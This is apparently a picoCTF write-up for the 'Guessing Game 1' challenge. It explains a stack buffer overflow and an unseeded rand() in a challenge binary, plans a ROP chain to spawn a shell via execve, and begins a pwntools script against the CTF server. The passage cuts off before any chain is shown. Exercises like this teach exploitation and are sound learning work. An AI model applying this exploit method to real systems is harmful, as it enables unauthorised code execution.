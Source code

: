 # Guessing Game 1



Target: `vuln` (64-bit, **statically linked**, **no PIE**, NX enabled).
Vulnerability: `fgets(winner, 360, stdin)` into `char winner[100]` in `win()` → stack buffer overflow.
Goal: get a shell using a ROP chain that invokes `execve("/bin/sh", 0, 0)` via a `syscall` gadget. Because binary is static and has no `system()`, we use syscall `execve` directly.

---


# guessing the no:


first of all we need to guesss the right no as the binary uses 


```c
long get_random() {
	return rand() % BUFSIZE;
}
```


In C, rand() is a pseudo-random number generator (PRNG)

Its output sequence is deterministic — it always depends on an internal state (the “seed”).

The seed is set with srand(seed).

but here `srand()` is not called  If srand() is never called, then the seed defaults to 1 at program start (that’s how glibc and many libc implementations behave).

here i have just bruteforce the no using this script 


```python
#!/usr/bin/python3
from pwn import *
import sys

class bcolors:
    GREEN = '\u001b[32m'
    RED   = '\u001b[31m'
    ENDC  = '\033[0m'

# -------------------------
# Args check
# -------------------------
if len(sys.argv) != 3:
    print(f"Usage: {sys.argv[0]} remote|local <count>")
    sys.exit(0)

mode = sys.argv[1].lower()
count = int(sys.argv[2])

# -------------------------
# Config
# -------------------------
REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 64338          # <-- put the actual port here
elf = ELF('./vuln')

random_sequence = []


for i in range(count):
```